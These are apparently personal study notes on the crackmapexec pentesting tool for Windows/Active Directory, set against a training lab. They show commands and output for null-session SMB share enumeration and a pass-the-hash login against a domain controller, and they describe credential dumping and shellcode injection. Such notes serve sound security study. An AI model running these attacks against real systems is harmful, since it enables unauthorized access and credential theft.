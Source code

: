 # 💢 crackmapexec

Tags: #💢
Related to:
See also:
Previous: [[SMB Analysis]], [[Footprinting]]

## Description

This package is a swiss army knife for pentesting Windows/Active Directory environments.

From enumerating logged on users and spidering SMB shares to executing psexec style attacks, auto-injecting Mimikatz/Shellcode/DLL’s into memory using Powershell, dumping the NTDS.dit and more.

The biggest improvements over the above tools are:

-   Pure Python script, no external tools required
-   Fully concurrent threading
-   Uses **ONLY** native WinAPI calls for discovering sessions, users, dumping SAM hashes etc…
-   Opsec safe (no binaries are uploaded to dump clear-text credentials, inject shellcode etc…)

Additionally, a database is used to store used/dumped credentals. It also automatically correlates Admin credentials to hosts and vice-versa allowing you to easily keep track of credential sets and gain additional situational awareness in large environments.

## Usage Examples

### Enumerate SMB shares using null session authentication

	crackmapexec smb 10.129.14.128 --shares -u '' -p ''

```text
SMB         10.129.14.128   445    DEVSMB           [*] Windows 6.1 Build 0 (name:DEVSMB) (domain:) (signing:False) (SMBv1:False)
SMB         10.129.14.128   445    DEVSMB           [+] \: 
SMB         10.129.14.128   445    DEVSMB           [+] Enumerated shares
SMB         10.129.14.128   445    DEVSMB           Share           Permissions     Remark
SMB         10.129.14.128   445    DEVSMB           -----           -----------     ------
SMB         10.129.14.128   445    DEVSMB           print$                          Printer Drivers
SMB         10.129.14.128   445    DEVSMB           home                            INFREIGHT Samba
SMB         10.129.14.128   445    DEVSMB           dev                             DEVenv
SMB         10.129.14.128   445    DEVSMB           notes           READ,WRITE      CheckIT
SMB         10.129.14.128   445    DEVSMB           IPC$                            IPC Service (DEVSM)
```

### Pass-the-hash attack

	crackmapexec smb 10.129.41.19 -u rachel -H e46b9e548fa0d122de7f59fb6d48eaa2

```text
SMB         10.129.43.9     445    DC01      [*] Windows 10.0 Build 17763 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    DC01      [+] INLANEFREIGHT.LOCAL\rachel:e46b9e548fa0d122de7f59fb6d48eaa2 (Pwn3d!)
```

# References